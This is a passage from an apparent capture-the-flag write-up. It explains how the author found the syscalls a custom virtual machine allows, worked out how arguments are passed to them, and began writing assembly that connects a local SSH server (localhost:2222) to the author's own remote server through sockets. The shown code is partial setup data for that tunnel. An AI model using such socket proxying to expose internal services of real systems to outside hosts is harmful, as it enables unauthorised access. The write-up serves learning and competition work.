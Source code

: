 This gave me back the syscalls `[1, 3, 22, 32, 33, 41, 42, 44, 45, 59]`, which are the following: 
```
sys_write: 		1
sys_close: 		3
sys_pipe: 		22
sys_dup: 		32
sys_dup2: 		33
sys_socket: 	41
sys_connect: 	42
sys_sendto: 	44
sys_recvfrom: 	45
sys_execve: 	59
```

`execve` looked ideal, but after trying that out I quickly realised it was just a troll.

Right around now was when I realised that we were probably going to have to proxy the local SSH server to the outside world as we couldn't execute anything or open any files, instead we could only create sockets and do various socket operations.

## Syscall Calling Convention
First I had to figure out how to pass arguments to the syscalls, as `socket` for example takes 3 arguments but looking at the instruction structure we only had space for two arguments, e.g.
`0x133769 sys_socket [B] [C]`. This obviously wasn't going to work, so after playing around for a bit longer I realised that `[B]` is actually the offset of a structure containing the arguments, and `[C]` is the offset of the return value. With this I was able to call any of the syscalls with the appropriate arguments and then receive the return value by writing the return value to stdout with a write syscall.

## Proxying SSH
Now I had the syscalls working it was time to write the proxy. To do this I first had to create two sockets, connect one to localhost:2222 which was the SSH server, and connect the other to my remote server. I then had to write a loop to recv from local and send to remote, and recv from remote and send to local, for this I used the `recvfrom` and `write` syscalls.

The resulting rasm is here:
```
sys_write:      0x01
sys_socket:     0x29
sys_connect:    0x2a
sys_recvfrom:   0x2d
output: 0
r0: 0x1
r1: 0xdeadbeef
r2: 0x10
zero: 0x0
constMinus1: 0xffffffff
const20: 24
loop_size: 92
test_pad: 0
shit: 0
bad_syscall0: 0
bad_syscall2: 2 
bad_syscall5: 5 
bad_syscall6: 6 

sep: 0x2d2d2d0a 0x0a2d2d2d

sock_args: 2 1 6
connect_localhost_args: 3 sock_addr_local 16
connect_remote_args: 4 sock_addr_remote 16
sock_addr_local: 0xae080002 00x0100007f 0 
sock_addr_remote: 0xae080002 [REDACTED] 0 
write_output_args: 1 output 4
```